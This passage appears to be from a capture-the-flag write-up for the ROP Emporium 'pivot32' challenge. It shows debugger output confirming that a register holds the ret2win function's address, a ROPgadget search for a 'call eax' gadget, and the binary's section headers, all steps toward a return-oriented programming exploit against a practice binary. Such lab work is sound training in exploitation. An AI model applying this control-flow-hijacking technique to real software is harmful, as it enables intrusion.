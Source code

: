 ```asm
[#0] Id 1, Name: "pivot32", stopped 0xa in ?? (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  i r eax
eax            0xf7f65974          0xf7f65974
gef➤  x/wx $eax
0xf7f65974:	0x53e58955
gef➤  x/wx ret2win
0xf7f65974 <ret2win>:	0x53e58955
gef➤  
```

Neat.  
Now we can just call eax to jump to the address of the ret2win function!  
Let's find a rop gadget to do that


```sh
ubuntu@ubuntu:~/ropemporium/pivot$ ROPgadget --binary pivot32 | grep ": call eax"
0x080485f0 : call eax
```

Let's find the offset (even though we could just pass in the address manually, this is good practice):

```sh
ubuntu@ubuntu:~/ropemporium/pivot$ readelf -S pivot32
There are 30 section headers, starting at offset 0x18f0:
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048154 000154 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048168 000168 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048188 000188 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        080481ac 0001ac 000040 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481ec 0001ec 000130 10   A  6   1  4
  [ 6] .dynstr           STRTAB          0804831c 00031c 0000c3 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          080483e0 0003e0 000026 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048408 000408 000020 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048428 000428 000010 08   A  5   0  4
  [10] .rel.plt          REL             08048438 000438 000050 08  AI  5  23  4
  [11] .init             PROGBITS        08048488 000488 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        080484b0 0004b0 0000b0 04  AX  0   0 16
  [13] .plt.got          PROGBITS        08048560 000560 000008 08  AX  0   0  8
  [14] .text             PROGBITS        08048570 000570 000332 00  AX  0   0 16	<------- where all instructions are
  [15] .fini             PROGBITS        080488a4 0008a4 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        080488b8 0008b8 000118 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        080489d0 0009d0 00004c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        08048a1c 000a1c 000130 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      08049efc 000efc 000004 04  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049f00 000f00 000004 04  WA  0   0  4
  [21] .dynamic          DYNAMIC         08049f04 000f04 0000f8 08  WA  6   0  4
  [22] .got              PROGBITS        08049ffc 000ffc 000004 04  WA  0   0  4
  [23] .got.plt          PROGBITS        0804a000 001000 000034 04  WA  0   0  4
  [24] .data             PROGBITS        0804a034 001034 000008 00  WA  0   0  4
  [25] .bss              NOBITS          0804a03c 00103c 000008 00  WA  0   0  4
  [26] .comment          PROGBITS        00000000 00103c 000029 01  MS  0   0  1
  [27] .symtab           SYMTAB          00000000 001068 0004d0 10     28  48  4
  [28] .strtab           STRTAB          00000000 001538 0002b3 00      0   0  1
  [29] .shstrtab         STRTAB          00000000 0017eb 000105 00      0   0  1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
```